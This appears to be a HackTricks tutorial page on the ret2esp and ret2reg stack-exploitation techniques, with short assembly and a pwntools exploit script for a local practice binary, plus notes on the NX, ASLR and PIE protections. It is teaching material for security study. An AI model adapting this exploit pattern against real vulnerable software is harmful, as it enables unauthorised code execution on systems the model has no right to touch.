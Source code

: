 # Ret2esp / Ret2reg

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## **Ret2esp**

**Because the ESP (Stack Pointer) always points to the top of the stack**, this technique involves replacing the EIP (Instruction Pointer) with the address of a **`jmp esp`** or **`call esp`** instruction. By doing this, the shellcode is placed right after the overwritten EIP. When the `ret` instruction executes, ESP points to the next address, precisely where the shellcode is stored.

If **Address Space Layout Randomization (ASLR)** is not enabled in Windows or Linux, it's possible to use `jmp esp` or `call esp` instructions found in shared libraries. However, with [**ASLR**](../common-binary-protections-and-bypasses/aslr/) active, one might need to look within the vulnerable program itself for these instructions (and you might need to defeat [**PIE**](../common-binary-protections-and-bypasses/pie/)).

Moreover, being able to place the shellcode **after the EIP corruption**, rather than in the middle of the stack, ensures that any `push` or `pop` instructions executed during the function's operation don't interfere with the shellcode. This interference could happen if the shellcode were placed in the middle of the function's stack.

### Lacking space

If you are lacking space to write after overwriting RIP (maybe just a few bytes), write an initial `jmp` shellcode like:

```armasm
sub rsp, 0x30
jmp rsp
```

And write the shellcode early in the stack.

### Example

You can find an example of this technique in [https://ir0nstone.gitbook.io/notes/types/stack/reliable-shellcode/using-rsp](https://ir0nstone.gitbook.io/notes/types/stack/reliable-shellcode/using-rsp) with a final exploit like:

```python
from pwn import *

elf = context.binary = ELF('./vuln')
p = process()

jmp_rsp = next(elf.search(asm('jmp rsp')))

payload = b'A' * 120
payload += p64(jmp_rsp)
payload += asm('''
    sub rsp, 10;
    jmp rsp;
''')

pause()
p.sendlineafter('RSP!\n', payload)
p.interactive()
```

## Ret2reg

Similarly, if we know a function returns the address where the shellcode is stored, we can leverage **`call eax`** or **`jmp eax`** instructions (known as **ret2eax** technique), offering another method to execute our shellcode. Just like eax, **any other register** containing an interesting address could be used (**ret2reg**).

### Example

You can find an example here: [https://ir0nstone.gitbook.io/notes/types/stack/reliable-shellcode/ret2reg/using-ret2reg](https://ir0nstone.gitbook.io/notes/types/stack/reliable-shellcode/ret2reg/using-ret2reg)

## Protections

* [**NX**](../common-binary-protections-and-bypasses/no-exec-nx.md): If the stack isn't executable this won't help as we need to place the shellcode in the stack and jump to execute it.
* [**ASLR**](../common-binary-protections-and-bypasses/aslr/) & [**PIE**](../common-binary-protections-and-bypasses/pie/): Those can make harder to find a instruction to jump to esp or any other register.

## References

* [https://ir0nstone.gitbook.io/notes/types/stack/reliable-shellcode](https://ir0nstone.gitbook.io/notes/types/stack/reliable-shellcode)
* [https://ir0nstone.gitbook.io/notes/types/stack/reliable-shellcode/using-rsp](https://ir0nstone.gitbook.io/notes/types/stack/reliable-shellcode/using-rsp)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
